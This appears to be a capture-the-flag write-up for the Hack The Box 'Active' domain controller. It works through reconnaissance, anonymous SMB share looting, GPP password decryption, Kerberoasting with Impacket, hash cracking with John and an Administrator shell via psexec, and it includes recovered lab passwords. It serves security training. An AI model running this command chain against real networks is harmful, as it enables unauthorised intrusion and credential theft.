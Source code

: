 # Initial Recon
## Port Scans

### All Ports

```shell
nmap -p- -T4 --min-rate 10000 -oA nmap/all 10.129.230.20
```

![](Pasted%20image%2020240529200240.png)

### Port Versions Scan

```shell
nmap -sCV -O -T4 --min-rate 10000 -oA nmap/versions -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49169,49173,49174 10.129.230.20
```

![](Pasted%20image%2020240529200440.png)
## Anonymous LDAP Enumeration

### Base Active Directory Data

```shell
ldapsearch -H ldap://10.129.230.20 -x -s base namingcontexts
```

![](Pasted%20image%2020240529162820.png)

### All Active User Enumeration

Attempting to perform an anonymous `ldapsearch` for active users in the directory results in bind error likely due to insufficient rights.

```shell
ldapsearch -x -H 'ldap://10.129.230.20' -b "DC=active,DC=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))"
```

![](Pasted%20image%2020240529165917.png)

## Anonymous SMB Enumeration - Port 445

```shell
smbclient -N -L  \\\\10.129.230.20
```

![](Pasted%20image%2020240529132539.png)

### SMB Data Exfiltration

```shell
smbclient -N \\\\10.129.230.20\\Replication
```

#### SMB Commands

```shell
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```

![](Pasted%20image%2020240529133954.png)

### SMB Write Enumeration

We then check if we have write access to the SMB share.

```shell
echo test > test.txt
```

#### SMB commands

```
smb: \> put test.txt
```

We get access denied attempting to write our test file to the share.

![](Pasted%20image%2020240529134308.png)

# Initial Foothold

## Password Disclosure

Recursively searching the downloaded files for the term "pass" reveals a `GPP` credential in a `Groups.xml` file.

```shell
grep -arin pass
```

![](Pasted%20image%2020240529134850.png)

## Password Attack

Using the `gpp-decrypt` tool on Kali, we can decrypt the `cpassword` encrypted string to plain text. 

```shell
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'

GPPstillStandingStrong2k18
```

We crack the password and from the previous password disclosure, we can also see that there is a `userName` of `active.htb\SVC_TGS`. Test the credentials using `crackmapexec`:

```shell
crackmapexec smb 10.129.230.20 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
```

![](Pasted%20image%2020240529140318.png)

# Authenticated Enumeration

## Lateral Movement

![](Pasted%20image%2020240529140425.png)

## Authenticated SMB Data Exfiltration

```shell
smbclient \\\\10.129.230.20\\Users -U SVC_TGS
```

Enter the exposed credentials as the password when prompted.

### SMB Client Commands

```shell
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```

![](Pasted%20image%2020240529140609.png)

### User Flag

From the SMB `mget *` output, we can see that there is a `user.txt` flag at `\SVC_TGS\Desktop\user.txt` on the SMB share. We can simply print out the contents of the file on our target machine:

```shell
cat SVC_TGS/Desktop/user.txt
```

![](Pasted%20image%2020240529204743.png)
## Authenticated LDAP Enumeration

```shell
ldapsearch -x -H 'ldap://10.129.230.20' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "DC=active,DC=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"
```

![](Pasted%20image%2020240529170618.png)

We can add to the LDAP filter by looking for only accounts with a `servicePrincipalName`:

```shell
ldapsearch -x -H 'ldap://10.129.230.20' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "DC=active,DC=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))"
```

![](Pasted%20image%2020240529171125.png)

This confirms that it is possible that the machine is vulnerable to a Kerberoast attack.

# Privilege Escalation

First we request `SPNs` using Impackets `GetUserSPNs.py` script:

```shell
impacket-GetUserSPNs -target-domain active.htb -request -dc-host active.htb active.htb/SVC_TGS:GPPstillStandingStrong2k18 -outputfile spn.hashes
```

![](Pasted%20image%2020240529171229.png)

## Password Crack

```shell
john spn.hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

![](Pasted%20image%2020240529171425.png)

```
Ticketmaster1968
```

We can now connect to the machine using the `Administrator` credentials using Impacket's `Psexec.py`:

```shell
impacket-psexec 'active.htb'/'Administrator':'Ticketmaster1968'@'active.htb'
```

![](Pasted%20image%2020240529150701.png)

